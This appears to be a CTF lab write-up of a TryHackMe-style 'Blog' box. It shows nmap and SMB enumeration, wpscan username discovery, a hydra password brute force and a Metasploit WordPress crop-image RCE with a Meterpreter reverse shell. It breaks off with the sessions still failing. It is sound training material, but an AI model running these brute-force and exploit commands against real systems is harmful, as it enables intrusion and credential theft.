










## Scenario

> Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!
> 
> Enumerate this box and find the 2 flags that are hiding on it! Billy has some weird things going on his laptop. Can you maneuver around and get what you need? Or will you fall down the rabbit hole...
> 
> In order to get the blog to work with AWS, you'll need to add 10.114.149.78 blog.thm to your /etc/hosts file.

IP address: `10.114.149.78`

## Initial Enumeration

### Nmap Scan

The task called for adding the target to `/etc/hosts` so the WordPress site would resolve by name, so I did as instructed.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '10.114.149.78 blog.thm' | sudo tee -a /etc/hosts
[sudo] password for —REDACTED—:
10.114.149.78 blog.thm
```

With the hostname resolving, a full TCP port scan ran first, to avoid missing anything outside the common ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.149.78 -p- -T4
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-27 22:56 +0200
Nmap scan report for blog.thm (10.114.149.78)
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
```

Four ports turned up: SSH, HTTP, and two SMB-related ports (139 and 445). A version and default-script scan followed, aimed at just those four.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.149.78 -p22,80,139,445 -sV -sC
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-27 22:57 +0200
Nmap scan report for blog.thm (10.114.149.78)
Host is up (0.034s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2026-11-27T20:57:23+00:00
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-11-27T20:57:23
|_  start_date: N/A
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

WordPress 5.0 on Ubuntu, with SMB reachable and guest access allowed—two leads to follow up. The web server came first, given the room is named "Blog."

### Web Technology Fingerprinting

The site was browsed to directly.



A WordPress blog, with a post from Billy Joel's mother, Karen Wheeler. The stack was confirmed with the Wappalyzer browser extension.


WordPress 5.0, confirmed. I proceeded to search whether it has known flaws before going further.





This pointed at a path-traversal-into-RCE chain in `wp_crop_image()` (CVE-2019-8942 and CVE-2019-8943), and Metasploit had a matching module.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf > search CVE-2019-8942

Matching Modules
================

   #  Full Name                       Disclosure Date  Rank       Check  Name
   -  ---------                       ---------------  ----       -----  ----
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_crop_rce
```

It, however, needed WordPress credentials to work. The SMB ports found earlier, with guest access allowed, looked like a possible source for those, so they were checked next.

### SMB Share Enumeration

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient -L //10.114.149.78 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	BillySMB        Disk      Billy's local SMB Share
	IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            BLOG
```

`BillySMB` stood out as a custom share, so it was worth connecting to anonymously.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient //10.114.149.78/BillySMB -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 21:17:05 2020
  ..                                  D        0  Tue May 26 20:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 21:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 21:13:45 2020
  check-this.png                      N     3082  Tue May 26 21:13:43 2020

		15413192 blocks of size 1024. 9788756 blocks available
```

The filename `Alice-White-Rabbit.jpg` called to mind a different THM room/CTF, Wonderland, which was full of its own red herrings and trolls. That didn't inspire much confidence this share was the real way in—it looked more like the rabbit hole the brief itself had warned about—but all three files were pulled down for a closer look anyway.

```shell
smb: \> get check-this.png
getting file \check-this.png of size 3082 as check-this.png (21.7 KiloBytes/sec) (average 21.7 KiloBytes/sec)
smb: \> get Alice-White-Rabbit.jpg
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (137.5 KiloBytes/sec) (average 94.7 KiloBytes/sec)
```

The JPEG was checked with `steghide` first.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide info Alice-White-Rabbit.jpg
"Alice-White-Rabbit.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "rabbit_hole.txt":
    size: 48.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

The command checks whether the JPEG holds embedded data, and reports a hidden file named `rabbit_hole.txt` once a passphrase is supplied—an empty passphrase was enough for this instance.

With the embedded file confirmed, it was extracted the same way.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide extract -sf  Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".

┌──(—REDACTED—㉿kali)-[~]
└─$ cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

**Breakdown:**

- `extract` pulls the hidden file out of the image, rather than just reporting on it
- `-sf Alice-White-Rabbit.jpg` names the stego file (`-sf`) to extract from
- `cat rabbit_hole.txt` prints the extracted file's contents to the terminal

The commands extract the hidden `rabbit_hole.txt` file from the JPEG and display its contents.

Just a joke message about falling down a rabbit hole, matching my suspicion exactly: a red herring. The other two files were a music video and a QR code pointing to a YouTube clip, so none of the three SMB files led anywhere useful. From here, it was back to the WordPress login.

## WordPress Foothold

### Locating the Login Form

The web root was worth checking for anything exposed, since the earlier Nmap scan had already flagged a disallowed `robots.txt` entry.



This confirmed what nmap had already shown. Going to `/wp-admin/` redirected to the login page.



A test of `admin:admin` returned an error saying the username itself was invalid, which meant the login form would also leak whether a given username existed—worth enumerating from.

### Enumerating Valid Usernames

Given it was WordPress, I decided to use `wpscan` instead of `hydra` for username enumeration.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wpscan --url http://blog.thm -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.2.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://blog.thm/ [10.114.149.78]
[+] Started: Fri Nov 27 23:16:31 2026
[+] Command Line: wpscan --url http://blog.thm -e u
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://blog.thm/wp-content/themes/twentytwenty/
 | Last Updated: 2026-10-27 10:00pm GMT (1 month ago, per WordPress.org)
 | Active Installs: 200,000 (per WordPress.org)
 | Readme: http://blog.thm/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://blog.thm/wp-content/themes/twentytwenty/style.css?ver=1.3
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.thm/wp-content/themes/twentytwenty/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00
[i] 4 user(s) Identified.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Fri Nov 27 23:16:35 2026
[+] Requests Done: 55
[+] Cached Requests: 8
[+] Most response codes received: 200: 28, 404: 22, 500: 2, 301: 2, 302: 1
[+] Data Sent: 14.635 KB
[+] Data Received: 408.915 KB
[+] Memory used: 213.191 MB
[+] Elapsed time: 00:00:04
```

The command scans the WordPress site and passively and aggressively enumerates valid usernames, identifying two login-style usernames (`kwheel`, `bjoel`) and the two display names they correspond to (Karen Wheeler, Billy Joel).

`kwheel` matched Karen Wheeler, Billy Joel's mother from the earlier blog post, and `bjoel` matched Billy Joel himself. A small username list was built from the two login names, and a single test login was sent with `kwheel` first, to capture the exact failure message and request parameters for a brute-force attempt.







```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ for name in bjoel kwheel; do echo $name >> name.txt; done

┌──(—REDACTED—㉿kali)-[~]
└─$ cat name.txt
bjoel
kwheel
```

### Brute-Forcing Credentials

With the failure message and POST parameters captured, I ran `hydra` against the login form using that username list and `rockyou.txt`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -L name.txt -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-27 23:26:40
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[STATUS] 1768.00 tries/min, 1768 tries in 00:01h, 28687030 to do in 270:26h, 16 active
[80][http-post-form] host: blog.thm   login: bjoel
[STATUS] 4781647.67 tries/min, 14344943 tries in 00:03h, 14343855 to do in 00:03h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Left running for a while, it estimated over 270 hours to finish both usernames. `bjoel`, first in the list, was bottlenecking everything, and a CTF box's second account is rarely the slow one to crack—so the run was stopped and restarted against just `kwheel`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-27 23:31:59
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[STATUS] 1752.00 tries/min, 1752 tries in 00:01h, 14342647 to do in 136:27h, 16 active
[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-27 23:33:49
```

As I had suspected, this one returned relatively quickly, successfully extracting her credentials: `kwheel:cutiepie1`. 

Logging in through the normal login form showed nothing of interest in the account itself; looking into Media did show some unrendered/corrupted images, which I suppose hints at the vulnerability/exploit I found earlier—but otherwise, there was nothing significant here. 



### Exploiting `wp_crop_rce` (CVE-2019-8942, CVE-2019-8943)

With working credentials confirmed, the `wp_crop_rce` exploit found earlier was configured with them.

```shell
msf exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, http, socks5, socks5h
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  —REDACTED—  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

The credentials, target, and listener address were set.

```shell
msf exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf exploit(multi/http/wp_crop_rce) > set RHOSTS 10.114.149.78
RHOSTS => 10.114.149.78
msf exploit(multi/http/wp_crop_rce) > set LHOST tun0
LHOST => —REDACTED—
```

A safe check confirmed the target was vulnerable before firing the exploit.

```shell
msf exploit(multi/http/wp_crop_rce) > check
[+] 10.114.149.78:80 - The target appears to be vulnerable. The target appears to be running a vulnerable version of the plugin
msf exploit(multi/http/wp_crop_rce) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (72676 bytes) to 10.114.149.78
[*] Sending stage (72676 bytes) to 10.114.149.78
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 2 closed.
[*] 10.114.149.78 - Meterpreter session 1 closed.  Reason: Died
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 3 closed.
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 4 closed.
[*] 10.114.149.78 - Meterpreter session 4 closed.  Reason: Died
—SNIP—
```

Every Meterpreter session died right after staging. I hazarded a guess that perhaps the `php/meterpreter/reverse_tcp` payload was the cause, so a stageless Meterpreter variant was tried instead.

```shell
msf exploit(multi/http/wp_crop_rce) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
```

The exploit was checked and run again.

```shell
msf exploit(multi/http/wp_crop_rce) > check
[+] 10.114.149.78:80 - The target appears to be vulnerable. The target appears to be running a vulnerable version of the plugin
msf exploit(multi/http/wp_crop_rce) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[-] Exploit aborted due to failure: not-found: Failed to send payload to target
[*] Exploit completed, but no session was created.
```

This was worse. The non-staged payload was presumably too large for the exploit's upload-and-include path to even deliver cleanly. I tried the original staged payload again, hoping that the first attempt was just the exploit being inconsistent—though the ranking of the exploit didn't really suggest that.

```shell
msf exploit(multi/http/wp_crop_rce) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (72676 bytes) to 10.114.149.78
[*] Sending stage (72676 bytes) to 10.114.149.78
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 78 is not valid and will be closed
[*] 10.114.149.78 - Meterpreter session 78 closed.
[*] 10.114.149.78 - Meterpreter session 77 closed.  Reason: Died
[*] Sending stage (72676 bytes) to 10.114.149.78
[-] Meterpreter session 79 is not valid and will be closed
